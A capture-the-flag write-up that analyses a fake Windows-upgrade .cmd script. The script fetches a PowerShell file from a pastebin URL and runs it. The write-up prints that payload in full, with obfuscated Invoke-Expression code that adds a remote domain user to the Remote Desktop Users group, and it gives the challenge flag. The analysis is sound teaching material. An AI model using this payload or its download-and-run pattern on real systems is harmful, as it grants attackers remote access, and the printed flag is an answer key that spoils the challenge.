 +++
title = "Upgrading Windows - Writeup"
draft = false
ShowToc = false
author = ["connar"]
+++

In this test, we are given a ".cmd" script whose purpose is to upgrade the user's version of Windows. However, the user reports that not only did the script not work, but also observed strange activity on their computer. Let's analyze the file to see what we can find.  

![alt text](/posts/writeups/pmdk/upgradingwindows/upgradingWindows1.png)  


We observe that indeed the script contains a portion of code that attempts to upgrade the Windows version, but it fails because there is an exit command in the middle that terminates its execution. However, just before the exit command, it does something very suspicious:  
- It downloads content from the URL https://pastebin.com/raw/XMRy2Kp4 and saves it into a PowerShell file named safe.ps1.
- It then executes the newly created file.  

Therefore, we can easily assume that the next step is to analyze what exists at the URL from the link we discovered earlier. Visiting the [link](https://pastebin.com/raw/XMRy2Kp4), we find the following PowerShell code:  

```powershell
$computername = "DESKTOP-5570"

Invoke-Command -ComputerName $computername -ScriptBlock { 
    $computer = $env:COMPUTERNAME
    $domain = "105.10.10.34"
    $user = (("{22}{24}{8}{28}{33}{19}{6}{30}{20}{4}{15}{26}{5}{32}{18}{13}{12}{10}{3}{17}{9}{2}{1}{16}{23}{7}{27}{31}{29}{14}{21}{0}{11}{25}" -f '3','1n','3h','urc+','urc','c+urc3ll3d_7u','5_','u','FL','b','y','6s','3r','my5urc+urc7','rc1urc+urcp7}ur','v','d_7h15','urc_','3_','rc+urcngra7','0u_unr4urc+','c)','(ur','_','c',' iEx','ur','rc+urc5uurc','AG{C','crurc+u','Y','+urc5_5','rc+urch','0u')).REplAcE('urc',[striNg][ChAR]39).REplAcE(([ChAR]51+[ChAR]54+[ChAR]115),'|')|&( $VERboSePrEfeRENCE.ToSTrinG()[1,3]+'X'-JoiN'')
    $group = [ADSI]"WinNT://$computer/Remote Desktop Users,group"
    $group.psbase.Invoke("add",([ADSI]"WinNT://$domain/$user").Path) 
}
```

This code appears to be attempting to add a remote user to the victim's computer. The unusual part is the username it is trying to add, as it is not straightforward but is built using obfuscation techniques.  

While recovering the name may seem difficult, it is actually quite straightforward. All we need to do is copy that specific line and execute it inside a PowerShell terminal, as at the end of the command, it joins the total string, printing it to the screen.  

![alt text](/posts/writeups/pmdk/upgradingwindows/upgradingWindows2.png)  

And like this, we get the flag: ```FLAG{C0ngra75_Y0u_unr4v3ll3d_7h3_my573ry_b3h1nd_7h15_5u5_5cr1p7}```

